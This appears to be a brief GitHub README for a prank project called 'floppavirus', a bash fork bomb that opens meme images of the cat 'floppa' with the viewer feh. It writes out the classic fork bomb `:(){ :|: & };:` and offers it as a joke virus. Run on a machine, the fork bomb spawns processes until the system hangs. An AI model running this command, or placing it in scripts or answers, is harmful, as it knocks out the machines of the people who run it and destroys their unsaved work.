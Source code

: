 # floppavirus
bash floppa forkbomb

require `feh`
use classique `:(){ :|: & };:` for add floppa image
